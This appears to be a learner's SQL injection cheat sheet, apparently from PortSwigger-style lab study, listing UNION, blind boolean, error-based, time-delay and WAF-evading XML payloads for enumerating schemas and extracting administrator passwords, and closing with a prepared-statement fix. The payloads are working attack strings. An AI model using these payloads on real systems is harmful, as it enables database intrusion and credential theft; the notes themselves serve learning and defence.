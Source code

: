 # Union attacks : 
General query : `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

How to determine the number of columns required ?
we use order by statment : 

	' order by 1 --, 
	' order by 2 --, 
	' order by 3 --, ...etc

until getting an error.

or
	' UNION SELECT NULL--
	' UNION SELECT NULL,NULL--
	' UNION SELECT NULL,NULL,NULL--, -etc.

for oracle, specific syntax `' UNION SELECT NULL FROM DUAL--`

Finding columns with a useful data type
we use the following payload when we know the number of columns : 

	' UNION SELECT 'a',NULL,NULL,NULL--
	' UNION SELECT NULL,'a',NULL,NULL--
	' UNION SELECT NULL,NULL,'a',NULL--
	' UNION SELECT NULL,NULL,NULL,'a'--

or 

	- UNION SELECT 1,2,3,4-- 

to retreive data, we can use  

	' UNION SELECT username, password FROM users--

another example when columns are not even 

	SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
	UNION SELECT username, 2, 3, 4 from passwords-- '


Retrieving multiple values within the same column we can use contact depending on the sql syntax

	' UNION SELECT username || '~' || password FROM users--

we can query information about the sql such as : 

	' UNION Database type	Query
	' UNION Microsoft, MySQL	SELECT @@version
	' UNION Oracle	SELECT * FROM v$version
	' UNION PostgreSQL	SELECT version()

Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.
example : 

	SELECT * FROM information_schema.tables
	SELECT * FROM information_schema.columns WHERE table_name = 'Users'
	SELECT * FROM my_database.users;
	

Notes : First we have to know the database name  database 	

	SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;  // to enumrate databases;

then see the tables within the db

	select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 
	
	// !!!!! reminder number of columns don't make the mistake!!!!!!

the dump the columns 

	select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='users_xemvgh'

and then Get the data you need : 

	select username_ecephv,password_akjxku from users_xemvgh where username_ecephv = 'administrator' --

# Blind SQL Injection :
## Conditional response
blind sql injection, is when we have an injection without the visual output, the vuln occurs at the backend 

we start wy trigerring a false boolean logic and see if there is any change the page for example :

	…xyz' AND '1'='1 // here wothing will change
	…xyz' AND '1'='2 // here normaly we won't see welcome back for example.

first we start by knowing the length of the password for example : 

	xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
	xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'
	xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' 

and keep looping for all the entries until the password length.

## Error based injection
sometime we don't have some change in the web page'e behavior, we will trigger a an error and see the reponse the HTTP header.

	xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
	xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'

if we have a dirretent reponse for both quesries than we can suppose we have a blind sql injection error based.
we can go with the following payload :

	xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'
### Trigger another error based sqli with output

First thing try the sql injection if there is a potential injection : 

	TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--

it should resolve an error : `Argument END should be a boolean`
and to resolve this error 

	TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--

so once the error is resolved we can inject a `select` statement.

	TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--

or 

		TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users limit 1) AS int)--

## Time delay SQLi:

Some times the developper handle errors, but that doesn't mean the injection doesn't exist.
To test if the injction exists example :

	'; IF (1=2) WAITFOR DELAY '0:0:10'--
	'; IF (1=1) WAITFOR DELAY '0:0:10'--

Using this technique, we can retrieve data by testing one character at a time:

	'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
 depending on the DB, there are multipple syntaxes

 ## OAST techniques :
 //need to see this section in HTB, it's paid in Portswigger :'(

## SQL injection in different contexts
the SQL injections could also exist in JSON or XML format.
also, it exist ways to obfuscate the payload to evade WAFs:

	<stockCheck>
		<productId>123</productId>
		<storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
	</stockCheck>

Using entities, can help us bypass the WAF.

## Second order sqli

it happens when attackers know Sql vuln, and use it to update table for example or adding a new user with admin privileges.

# Prevent from sqli
You can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements".

The following code is vulnerable to SQL injection because the user input is concatenated directly into the query:

	String query = "SELECT * FROM products WHERE category = '"+ input + "'";
	Statement statement = connection.createStatement();
	ResultSet resultSet = statement.executeQuery(query);
You can rewrite this code in a way that prevents the user input from interfering with the query structure:

	PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
	statement.setString(1, input);
	ResultSet resultSet = statement.executeQuery();